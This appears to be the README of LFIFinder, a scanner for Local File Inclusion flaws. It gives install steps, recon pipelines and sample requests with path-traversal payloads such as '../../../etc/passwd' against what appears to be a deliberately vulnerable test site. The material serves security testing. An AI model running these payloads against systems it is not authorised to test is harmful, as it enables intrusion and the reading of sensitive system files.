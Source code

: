# LFIFinder

A Light Weight Tool for checking Local File Inclusion (LFI) vulnerabilities by replacing lfi payloads in the parameters values and checking 'root:' in the response.

## Installation
```
git clone https://github.com/rix4uni/LFIFinder.git
cd LFIFinder
#pip3 install -r requirements.txt
```

## Example usages

Note: must use `uro`

Single URL:
```
echo "http://testphp.vulnweb.com/showimage.php?file=./pictures/1.jpg" | python3 lfifinder.py
```

Multiple URLs:
```
cat lfi-urls.txt | python3 lfifinder.py
```

## Chaining With Other Tools
```
echo "http://testphp.vulnweb.com" | waybackurls | gf lfi | uro | anew | python3 lfifinder.py
echo "http://testphp.vulnweb.com" | waybackurls | gf lfi | uro | anew lfi-urls.txt # use this output in Multiple URLs
```

## How It Works
```
For Example Url is:- 
http://testphp.vulnweb.com/showimage.php?file=first&cat=second

It will check all lfipayloads one by one:-
NOT VULNERABLE: http://testphp.vulnweb.com/showimage.php?file=../../etc/passwd&cat=../../etc/passwd
VULNERABLE: http://testphp.vulnweb.com/showimage.php?file=../../../etc/passwd&cat=../../../etc/passwd
NOT VULNERABLE: http://testphp.vulnweb.com/showimage.php?file=../../../../../../../etc/passwd&cat=../../../../../../../etc/passwd
```
